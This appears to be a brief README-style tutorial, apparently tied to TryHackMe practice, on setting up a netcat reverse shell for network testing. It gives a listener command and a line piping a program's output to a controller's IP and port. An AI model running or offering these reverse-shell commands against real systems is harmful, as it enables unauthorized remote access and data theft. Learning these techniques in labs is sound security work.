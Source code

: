 
Setup a reverse shell for network testing:

First, set up a listener on the controlling machine:

```bash
nc -nlvp <port>
```

Then, on the target machine, create or choose a binary that you want the controlling machine to have access to:

```bash
<binary> | nc <controllers ip address> <controllers port>
```

From the destination machine, execute the commands related to the specified binary. The output will be seen on the 
controlling machine.

<script src="https://tryhackme.com/badge/181597"></script>
